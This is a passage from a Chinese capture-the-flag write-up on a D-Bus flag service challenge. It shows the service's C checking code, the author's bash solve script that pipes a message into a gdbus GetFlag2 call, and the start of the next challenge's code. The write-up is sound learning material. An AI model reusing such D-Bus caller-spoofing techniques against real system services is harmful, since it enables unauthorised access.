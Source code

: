 ```c
}

char buffer[100];
ssize_t len = read(fd, buffer, sizeof(buffer) - 1);
close(fd);
if (len == -1) {
  return respond_error_msg(invocation,
                           "Cannot read from your file descriptor.");
} else {
  buffer[len] = 0;
}

if (g_strcmp0(buffer, "Please give me flag2\n") != 0) {
  return respond_error_msg(
      invocation,
      "Please give me file descriptor with that message to get flag!");
} else {
  return respond_success(invocation, flag2);
}
```

这一小题则似乎是需要传入一个文件描述符，还不能指向文件系统上的文件，然后让这个文件描述符打开后读取的内容是`Please give me flag2\n`

不知道为啥，没能完全从GPT口中套出答案：

<img src="https://blogfiles.oss.fyz666.xyz/png/fa382083-f098-4087-b67c-15cc827b9b6d.png" alt="image-20241109185442773" style="zoom:50%;" />

不过根据服务器给的报错内容，这个版本已非常接近最终的答案了，我自己尝试着魔改了一下，得到了下面的脚本可以拿到flag2：

```bash
#!/bin/bash


{
    echo -ne "Please give me flag2\n"
} | {
    gdbus call --system \
      --dest cn.edu.ustc.lug.hack.FlagService \
      --object-path /cn/edu/ustc/lug/hack/FlagService \
      --method cn.edu.ustc.lug.hack.FlagService.GetFlag2 0
}

```

### Comm Say Maybe

```c
const gchar *caller_name = g_dbus_method_invocation_get_sender(invocation);
GError *error = NULL;
GVariant *result = g_dbus_connection_call_sync(
    connection, "org.freedesktop.DBus", "/org/freedesktop/DBus",
    "org.freedesktop.DBus", "GetConnectionUnixProcessID",
    g_variant_new("(s)", caller_name), G_VARIANT_TYPE("(u)"),
    G_DBUS_CALL_FLAGS_NONE, -1, NULL, &error);
if (result == NULL) {
  return respond_error(invocation, error);
}
guint32 pid;
g_variant_get(result, "(u)", &pid);
g_variant_unref(result);

char path[1024];
g_snprintf(path, sizeof(path), "/proc/%d/comm", pid);
gchar *comm;
gsize len;
```